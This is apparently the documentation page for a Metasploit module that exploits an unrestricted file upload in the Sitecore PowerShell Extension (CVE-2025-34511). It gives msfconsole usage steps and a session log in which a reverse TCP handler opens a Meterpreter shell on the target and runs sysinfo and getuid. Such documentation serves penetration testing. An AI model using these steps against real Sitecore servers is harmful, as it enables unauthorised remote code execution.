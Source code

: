 ## Vulnerable Application

The Sitecore Experience Platform (XP) is a flagship CMS product.
Provides comprehensive digital marketing tools, view of customer data and many other features.
A user can install multiple extensions to Sitecore XP - among them is Sitecore PowerShell Extension (SPA).
It is obligatory requirement for popular SXA add-on.
The SPA is vulnerable to an unrestricted file upload up to version 7.0.
An attacker can upload malicious ASPX file and gain remote code execution.


### Installation

The Sitecore XP can be downloaded from [here](https://developers.sitecore.com/downloads/Sitecore_Experience_Platform).
Please note that a license is required for successful installation.


## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/windows/http/sitecore_xp_cve_2025_34511`
1. Do: `set RHOSTS [Sitecore XP IP address]`
1. Do: `set VHOST [Sitecore XP hostname]`
1. Do: `set IDENTITY_VHOST [hostname of Sitecore XP identity server]`
1. Do: `set LHOST [attacker IP]`
1. Do: `run`

## Options


### VHOST

The hostname of Sitecore XP.
When installed, Sitecore XP deploys multiple vhosts, among them is the Sitecore XP host, where a user can access majority of functions.


### IDENTITY_VHOST

The Sitecore XP uses separate vhost for "identity host", which is used when user is authenticating and asking for session data.
If you are not sure about `IDENTITY_VHOST`, you can visit `https://[sitecore instance]/identity/login/shell/SitecoreIdentityServer`.
The hostname of page where the URL will redirect you can be used as `IDENTITY_VHOST`.


## Scenarios


```
msf exploit(windows/http/sitecore_xp_cve_2025_34511) > set IDENTITY_VHOST sitecorepocidentityserver.dev.local
msf exploit(windows/http/sitecore_xp_cve_2025_34511) > set RHOSTS 10.5.132.138
RHOSTS => 10.5.132.138
msf exploit(windows/http/sitecore_xp_cve_2025_34511) > set VHOST sitecorepocsc.dev.local
VHOST => sitecorepocsc.dev.local
msf exploit(windows/http/sitecore_xp_cve_2025_34511) > set IDENTITY_VHOST sitecorepocidentityserver.dev.local
IDENTITY_VHOST => sitecorepocidentityserver.dev.local
msf exploit(windows/http/sitecore_xp_cve_2025_34511) > run verbose=true 
[*] Started reverse TCP handler on 192.168.3.7:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Sitecore version detected 10.3.0, which is vulnerable
[*] Sending stage (203846 bytes) to 10.5.132.138
[*] Meterpreter session 1 opened (192.168.3.7:4444 -> 10.5.132.138:50194) at 2025-08-26 12:58:22 +0200

meterpreter > sysinfo
Computer        : WIN11_22H2_0800
OS              : Windows 11 22H2 (10.0 Build 22621).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: IIS APPPOOL\sitecorepocsc.dev.local
```
